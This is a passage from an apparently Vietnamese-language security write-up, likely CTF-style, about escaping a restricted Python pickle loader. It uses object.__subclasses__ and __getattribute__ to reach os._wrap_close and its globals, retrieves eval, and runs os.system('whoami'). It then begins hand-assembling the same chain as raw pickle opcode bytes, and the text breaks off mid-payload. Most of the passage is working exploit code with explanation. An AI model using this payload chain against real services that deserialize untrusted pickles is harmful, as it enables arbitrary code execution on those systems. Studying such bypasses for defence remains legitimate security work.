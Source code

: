 Phần code này định nghĩa 2 method và thực thi 3 method chỉ sử dụng những yếu tố pickle có: thực thi với **REDUCE** và đệ quy lấy attribute với proto 4 trở lên. Phân tích như sau:

1. Khi ta thực thi method `object.__subclasses__()` như 
   trình bày trong phần code trên là phần định nghĩa biến mysubclasseslist,
   nó sẽ trả về một list là những class là subclass của object.

2. Khi ta thực thi method `object.__getattribute__(obj, "attr-name")` thì nó sẽ thực hiện trả về thuộc tính attr-name của object obj, hay 
   mình thường hiểu là nó trả về obj.attr-name. Như trong code trên thì nó 
   trả về `object.__subclasses__()__getitem__` . Vốn dĩ là vì lúc này obj là một list, mà list thì sẽ có cái dunder method `__getitem__`.

3. Khi ta thực thi method `list.__getitem__(key)` thì nó đơn giản là trả về list[key]. Ở phần code thì nó trả về `object.__subclasses__()__getitem__(155)` rồi !

Như vậy là ta đã có thể truy cập đến class os._wrap_close chỉ với việc thực thi các method khác nhau một cách vi diệu.

```python
myinit = myatrr(myoswrapclose, '__init__')               #[1]
myglobals = myatrr(myinit, '__globals__')
mybuiltinsdict = myatrr(myglobals, '__getitem__')        #[2]
mybuiltins = mybuiltinsdict('__builtins__')
myevaldict = myatrr(mybuiltins, '__getitem__')           #[3]
myeval = myevaldict('eval')
mycommand = myeval('__import__("os").system("whoami")')

print(mycommand) #nguyenlong05
```

Phân tích phần tiếp theo để đi đến eval:

1. Ta tiếp tục chain bằng method `object.__getattribute__` định nghĩa ở trên, lần lượt đi tới `object.__subclasses__()[137].__init__.__globals__`

2. Lưu ý rằng, lúc này `__globals__` chứa các dict cho nên khi ta trích xuất builtins lại một lần nữa sử dụng `__getitem__`. Ở đây getitem trả về value trong dict cho nên ta truyền giá trị là key vào method getattribute. Cuối cùng ta nhận được `__globals__['__builtins__']`

3. Lặp lại một lần nữa ta nhận được `__globals__['__builtins__']['eval']`,
   chính là method eval. Cuối cùng thực thi hàm này với tham số là command
   cần được thực thi, xác nhận khả năng bypass của payload.

Thực hiện viết lại payload dưới dạng bytecodes của pickles như sau:

```
raw = (
    b"\x80\x04"
    # mysubclasses
    b"c__main__\n__class__.__base__.__subclasses__\n"
    b"(" b"t" b"R"                # () → __subclasses__() -> list
    b"p0\n"                       # memo[0] = subclasseslist
    # myattr
    b"c__main__\n__class__.__base__.__getattribute__\n"
    b"p1\n"                       # memo[1] = object.__getattribute__
    # mygetitem
    b"(" b"g0\n" b"V__getitem__\n" b"t" b"R"
    # myoswrapclose = mygetitem(155)
    b"(" b"I155\n" b"t" b"R"
    b"p2\n"                       # memo[2] = myoswrapclose
    # myinit
    b"g1\n"                       # push __getattribute__
    b"(" b"g2\n" b"V__init__\n" b"t" b"R"
    b"p3\n"                       # memo[3] = myinit
    # myglobals
    b"g1\n" b"(" b"g3\n" b"V__globals__\n" b"t" b"R"
    b"p4\n"                       # memo[4] = myglobals (dict)
    # mybuiltinsdict
```